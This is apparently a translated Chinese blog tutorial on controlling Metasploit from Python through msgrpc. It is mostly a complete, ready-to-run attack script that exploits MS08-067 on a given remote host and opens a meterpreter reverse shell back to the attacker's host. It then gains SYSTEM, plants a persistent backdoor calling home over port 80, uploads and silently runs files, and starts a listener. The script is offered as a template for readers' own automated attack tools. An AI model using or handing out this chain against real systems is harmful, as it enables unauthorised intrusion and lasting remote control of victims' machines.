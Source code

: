 ##Python版的Metasploit

pymsf模块是Spiderlabs实现的一个python与Metasploit的msgrpc通信的python模块,但首先你需要先启动msgrpc服务,命令如下:

```
load msgrpc Pass=<password>
```
与msgrpc进行通信其实就是与msfconsole进行通信，首先你需要创建一个msfrpc的类,登录到msgrpc服务器并且创建一个虚拟的终端,然后你就可以在你创建的虚拟终端上面执行多个命令的字符串.你可以调用模块的方法与console.write执行命令,并且通过"console.read"从虚拟终端上面读取输入的值.这篇文章将演示如何使用pymsf模块并且如何开发出一个完整的脚本.

这里有一个函数它创建了一个msfrpc实例,登录到msgrpc服务器,并且创建了一个虚拟终端.

```
def sploiter(RHOST, LHOST, LPORT, session):
    client = msfrpc.Msfrpc({})
    client.login('msf', '123')
    ress = client.call('console.create')
    console_id = ress['id']
```

下一步就是实现把多个字符串发给虚拟终端,通过console.write和console.read在虚拟终端显示与读取:

```
## Exploit MS08-067 ##
commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
print "[+] Exploiting MS08-067 on: "+RHOST
client.call('console.write',[console_id,commands])
res = client.call('console.read',[console_id])
result = res['data'].split('\n')

```

上面的这一小段代码创建了一个MSF的资源文件,这样你就可以通过"resoucen <PathToFile>"命令去执行指定文件里面中一系列的命令.下面我们将通过"getsystem"命令把这个文件的提权,建立一个后门打开80端口来转发.并且永久的运行.最后上传我们的漏洞exp并且在命令模式下面悄悄的安装:

```
# 这个函数会创建一个MSF .rc文件
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')
 
     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()

```

通过上面的那段代码,将会创建一个.rc的文件.通过msf模块“post/multi/gather/run_console_rc_file”在当前的meterpreter会话中运行生成的文件,并且通过console.write命令从虚拟终端写入数据,通过console.read命令来回显返回内容:

```
## 运行生成的exp ##
runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
print "[+] Setting up listener on: "+LHOST+":80"
client.call('console.write',[console_id,listen])
lres = client.call('console.read',[console_id])
print lres
```

上面代码中的变量(RHOST, LHOST, LPORT等)都是通过optparse模块从命令终端输入的,完整的脚本托管在github上面,有时候你需要知道脚本的生成的地方都是静态地址,不会在其他的目录生成,例如ms08067的补丁就会在你的/tmp/目录下面。大家只要知道基础然后对下面的代码进行一定的修改就可以编程一个属于你自己的msf自动化攻击脚本,我们建议通过博客里面发表的一些简单的例子出发,然后自己写一个msf攻击脚本:

```
import os, msfrpc, optparse, sys, subprocess
from time import sleep
 
# Function to create the MSF .rc files
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')
 
     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()
 
# Exploits the chain of rc files to exploit MS08-067, setup persistence, and patch
def sploiter(RHOST, LHOST, LPORT, session):
     client = msfrpc.Msfrpc({})
        client.login('msf', '123')
        ress = client.call('console.create')
        console_id = ress['id']
 
## Exploit MS08-067 ##
     commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
     print "[+] Exploiting MS08-067 on: "+RHOST
     client.call('console.write',[console_id,commands])
     res = client.call('console.read',[console_id])
     result = res['data'].split('\n')
 
## Run Post-exploit script ##
     runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
     print "[+] Setting up listener on: "+LHOST+":80"
     client.call('console.write',[console_id,listen])
     lres = client.call('console.read',[console_id])
     print lres
 
def main():
        parser = optparse.OptionParser(sys.argv[0] +\
        ' -p LPORT -r RHOST -l LHOST')
        parser.add_option('-p', dest='LPORT', type='string', \
        help ='specify a port to listen on')
        parser.add_option('-r', dest='RHOST', type='string', \
        help='Specify a remote host')
        parser.add_option('-l', dest='LHOST', type='string', \
        help='Specify a local host')
     parser.add_option('-s', dest='session', type='string', \
        help ='specify session ID')
     (options, args) = parser.parse_args()
     session=options.session
     RHOST=options.RHOST; LHOST=options.LHOST; LPORT=options.LPORT
 
     if (RHOST == None) and (LPORT == None) and (LHOST == None):
                print parser.usage
                sys.exit(0)
 
     builder(RHOST, LHOST, LPORT)
     sploiter(RHOST, LHOST, LPORT, session)
 
if __name__ == "__main__":
      main()
      
```